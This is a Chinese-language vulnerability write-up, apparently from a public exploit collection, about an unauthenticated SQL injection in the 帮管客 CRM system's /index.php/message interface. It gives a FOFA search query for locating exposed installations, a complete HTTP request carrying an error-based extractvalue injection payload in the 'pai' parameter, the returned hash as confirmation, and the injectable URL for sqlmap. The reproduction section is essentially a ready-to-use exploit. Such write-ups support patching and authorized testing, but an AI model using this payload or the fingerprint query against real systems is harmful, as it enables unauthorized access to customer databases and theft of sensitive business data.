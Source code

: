 # 帮管客CRM message存在SQL注入漏洞

# 一、漏洞简介
帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客CRM客户管理系统，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化帮管客CRM 客户管理系统/index.php/message 接口存在 sql 注入漏洞，未经身份认证的攻击者可通过此漏洞获取数据库敏感信息。

# 二、影响版本
+ 帮管客CRM

# 三、资产测绘
+ fofa`app="帮管客-CRM"`
+ 特征

![1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc.png](./img/haFr-bDMJulNGjGU/1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc-120634.png)

# 四、漏洞复现
```plain
GET /index.php/message?page=1&pai=1%20and%20extractvalue(0x7e,concat(0x7e,(select+md5(1)),0x7e))%23&xu=desc HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

![1706689959197-d1cbe09b-080c-476c-802c-d6bb9a6e2fab.png](./img/haFr-bDMJulNGjGU/1706689959197-d1cbe09b-080c-476c-802c-d6bb9a6e2fab-064551.png)

```plain
c4ca4238a0b923820dcc509a6f75849
```

sqlmap

```plain
/index.php/message?page=1&pai=1
```

![1706690225476-e322a53f-2bd6-47ce-a68c-6e96bde9ba0b.png](./img/haFr-bDMJulNGjGU/1706690225476-e322a53f-2bd6-47ce-a68c-6e96bde9ba0b-839621.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mqhzq6w8dmpgikxd>